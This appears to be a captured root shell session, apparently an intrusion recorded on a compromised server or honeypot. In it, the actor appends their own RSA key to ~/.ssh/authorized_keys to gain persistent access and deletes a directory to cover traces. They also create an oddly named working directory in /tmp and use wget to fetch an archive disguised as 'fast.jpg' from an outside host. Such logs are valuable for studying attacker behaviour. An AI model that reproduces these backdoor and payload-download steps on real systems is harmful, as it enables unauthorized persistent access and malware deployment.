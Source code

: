    server:/home# cd ..

    server:/# ls -a
    .          ..         sys        bin        mnt        media      vmlinuz
    opt        cdrom      selinux    tmp        proc       sbin       etc
    dev        srv        initrd.img lib        home       var        usr
    boot       root       lost+found

    server:/# mkdir .ssh

    server:/# cd .ssh

    server:/.ssh# echo ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAIBSUxeR1W95aH+iJwXRJaswx6YwqqZPk2BBLaGoJR5vnLARZbpMZzxfjo9wwed/FONEcnZFVo0eTkaZ+xDaC8eDvT0A4gRC2ahK7sCM17nbRvwGdXPIKismvz6Xqp7mLRf+I2jI6xKq8lba96U6uUHtbiaRi814IyJ3Q0It54KBwQ== rsa-key-20080201 >> ~/.ssh/authorized_keys; chmod 700 ~/.ssh; chmod 600 ~/.ssh/authorized_keys
    ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAIBSUxeR1W95aH+iJwXRJaswx6YwqqZPk2BBLaGoJR5vnLARZbpMZzxfjo9wwed/FONEcnZFVo0eTkaZ+xDaC8eDvT0A4gRC2ahK7sCM17nbRvwGdXPIKismvz6Xqp7mLRf+I2jI6xKq8lba96U6uUHtbiaRi814IyJ3Q0It54KBwQ== rsa-key-20080201 >> ~/.ssh/authorized_keys

    server:/.ssh# cd ..

    server:/# ;s =a
    bash: s: command not found

    server:/#

    server:/# ls -a
    .          ..         sys        bin        mnt        media      vmlinuz
    opt        cdrom      selinux    tmp        proc       sbin       etc
    dev        srv        initrd.img lib        home       var        usr
    boot       root       lost+found .ssh

    server:/# rm -rf .ssh

    server:/# cd

    server:~# cd /tmp

    server:/tmp# ls -a
    .         ..        .ICE-unix .X11-unix

    server:/tmp# mkdir ,

    server:/tmp# cd ,

    server:/tmp/,# wget http://pinky.clan.su/mech/fast.jpg ;  tar fast.jpg
    --2011-03-02 21:07:41--  http://pinky.clan.su/mech/fast.jpg
    Connecting to pinky.clan.su:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 821334 (802K) [image/jpeg]
    Saving to: `fast.jpg

    100%[======================================>] 821,334      113K/s  eta 0s

    2011-03-02 21:07:49 (113 KB/s) - `fast.jpg' saved [821334/821334]

    tar: You must specify one of the `-Acdtrux' options

    Try `tar --help' or `tar --usage' for more information.
